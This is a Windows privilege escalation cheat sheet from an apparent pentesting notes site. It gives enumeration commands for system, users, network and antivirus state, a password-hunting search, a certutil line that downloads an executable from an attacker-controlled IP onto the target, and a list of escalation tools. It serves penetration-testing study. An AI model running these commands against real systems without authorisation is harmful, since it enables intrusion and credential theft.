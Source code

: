 ```yaml
---
layout: default
title: Windows Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Windows Privilege Escalation :

Resources: 

- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html)
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Sushant 747's Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [TCM Guide](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

### Helpers 
#### Simple Web Server
```bash
sudo python3 -m http.server
```

#### Download file

```powershell
certutil -urlcache -f http://<YOUR_IP>/<YOUR_EXE> <DESTINATION>
```

#### WinPeas

Will automate the privilege escalation detection: 
- [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](  https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

#### TTY Shell

- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)


### Manual Enumeration

#### External
```bash
nmap -Pn -n -p- -A --min-rate 4000 --open -sCV <IP> -oN <FILE>.nmap
```

#### System Enumertion

```shell
hostname

systeminfo

ipconfig

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 

## LIST PATCH ON SYSTEM
i
## LIST DISK
wmic logicaldisk get caption,description,providername 
```

![](/writings/docs/assets/Pasted%20image%2020230315222528.png)
![](docs/assets/Pasted%20image%2020230315222529.png)

#### Users & Groups Enumeration


```bash
whoami

## Display privileges
whoami /priv

## Display groups
whoami /groups

## Display user of the machine
net user

## Display information about a user
net user <USER>

##Get information about group
net localgroup administrators
```

![](/writings/docs/assets/Pasted%20image%2020230315222308.png)

![](docs/assets/Pasted%20image%2020230315222303.png)

![](/writings/docs/assets/Pasted%20image%2020230315222728.png)
![](docs/assets/Pasted%20image%2020230315222731.png)


#### Network Enumeration

```bash
## Global network information
ipconfig

## ARP information 
arp -a

## Print routing table
route print

## Print Active connection
netstat -ano
```


#### Password Hunting

```sh
## Search for password phrase in txt file (could be tweak to search other sensitive information)
findstr /si password *.txt
```


#### AV Enumeration

```bash
## Search for Windows Defender
sc query windefend

## List all services
sc queryex type= service

## Show firewall state

netsh advfirewall firewall dump

netsh firewall show state

netsh firewall show config

```

### Automated Tools 

- WinPEAS - [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- Windows PrivEsc Checklist - [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- Sherlock - [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
- Watson - [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)
- PowerUp - [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- JAWS - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)
- Windows Exploit Suggester - [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- Metasploit Local Exploit Suggester - [https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
- Seatbelt - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
- SharpUp - [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

